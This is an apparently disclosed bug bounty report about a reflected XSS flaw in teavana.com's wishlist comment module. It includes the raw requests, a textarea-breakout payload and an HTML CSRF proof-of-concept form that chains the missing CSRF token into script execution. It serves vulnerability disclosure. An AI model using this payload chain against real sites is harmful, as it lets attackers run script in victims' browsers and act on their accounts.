 # Reflected XSS by exploiting CSRF vulnerability on teavana.com wishlist comment module. (wishlist-comments)

## Report Details
- **Report ID**: 177508
- **URL**: https://hackerone.com/reports/177508
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-10-22T10:40:41.332Z
- **Disclosed**: 2017-02-13T22:48:34.665Z

## Reporter
- **Username**: faisalahmed
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
User can add comments on their wishlist item. The http request which adds comment on wishlist item, looks like:

```http
POST /on/demandware.store/Sites-Teavana-Site/default/Wishlist-Comments/:id HTTP/1.1
Host: www.teavana.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: https://www.teavana.com/us/en/my-wishlist
Content-Length: 55
Cookie: REDACTED
Connection: close

wishlistComment=:comment_string
```
The value of the `wishlistComment` reflects on the returned HTML snippet as bellow:

```html
<textarea maxlength="150" onkeyup="return ismaxlength(this);" id="wishlistComment" name="wishlistComment" cols="60" rows="12">
:comment_string
</textarea>
```

But the returned string is not sanitized. As a result if user submits html/javascript payload as the value, that payload will return and will cause javascript execution.

**vulnerable post**
```http
POST /on/demandware.store/Sites-Teavana-Site/default/Wishlist-Comments/:id HTTP/1.1
Host: www.teavana.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: https://www.teavana.com/us/en/my-wishlist
Content-Length: 55
Cookie: REDACTED
Connection: close

wishlistComment=</textarea><img+src=x+onerror=alert(1)>
```
**Response**
```html
<textarea maxlength="150" onkeyup="return ismaxlength(this);" id="wishlistComment" name="wishlistComment" cols="60" rows="12">
</textarea><img src=x onerror=alert(1)>
</textarea>
```

There is no csrf token tied with the comment adding post request. As a result this csrf flaw can make the self-xss as a global reflected xss.

**CSRF to XSS PoC**

```html
<html>
  <body>
    <form action="https://www.teavana.com/on/demandware.store/Sites-Teavana-Site/default/Wishlist-Comments/:id" method="POST">
      <input type="hidden" name="wishlistComment" value="&lt;&#47;textarea&gt;&lt;img&#32;src&#61;x&#32;onerror&#61;alert&#40;1&#41;&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Replace the `:id` with your wishlist id (ex: C1005285074). This will execute the javascript and will popup an alert box.

{F129593}

## Attachments
- xssed.png
